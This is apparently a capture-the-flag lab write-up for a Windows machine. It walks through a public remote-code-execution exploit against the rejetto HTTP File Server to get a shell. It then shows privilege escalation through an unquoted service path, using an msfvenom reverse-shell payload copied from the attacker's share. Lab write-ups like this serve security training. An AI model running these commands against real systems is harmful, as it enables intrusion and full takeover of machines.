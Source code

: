 ### REJETTO
This version of rejetto file system is vulnerable to a RCE exploit which can be found [here](https://www.exploit-db.com/raw/39161). 

To run the exploit, we will need to change the local IP address and port number for the listener we will run.
```
...
	ip_addr = "10.11.3.179" #local IP address
	local_port = "4444" # Local Port number
...
```
Now we can run the command `python exploit.py 10.10.115.163 8080` with a http server hosting `nc.exe` on port 80 and our nc listener running on port 4444, and we have a shell as bill.

### PRIV ESC

After running winpeas.exe on the machine we can see that there is a vulnerable service with an unquoted path:
```
  [+] Interesting Services -non Microsoft-(T1007)
   [?] Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
    AdvancedSystemCareService9(IObit - Advanced SystemCare Service 9)[C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe] - Auto - Running - No quotes and Space detected
    Advanced SystemCare Service
   =================================================================================================

```
To exploit this we can upload a msfvenom payload `msfvenom -p windows/shell/reverse_tcp LHOST=10.11.3.179 LPORT=4444 -f exe > shell.exe` as `Advanced.exe` then stop and start the service to get a shell as SYSTEM.
```
C:\Program Files (x86)\IObit>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 2E4A-906A

 Directory of C:\Program Files (x86)\IObit

09/26/2019  08:17 AM    <DIR>          .
09/26/2019  08:17 AM    <DIR>          ..
07/18/2020  05:13 AM    <DIR>          Advanced SystemCare
09/26/2019  10:35 PM    <DIR>          IObit Uninstaller
07/18/2020  05:14 AM    <DIR>          LiveUpdate
               0 File(s)              0 bytes
               5 Dir(s)  44,162,068,480 bytes free

C:\Program Files (x86)\IObit>copy \\10.11.3.179\corn\shell.exe Advanced.exe
copy \\10.11.3.179\corn\shell.exe Advanced.exe
        1 file(s) copied.


C:\Program Files (x86)\IObit>sc stop AdvancedSystemCareService9
sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
```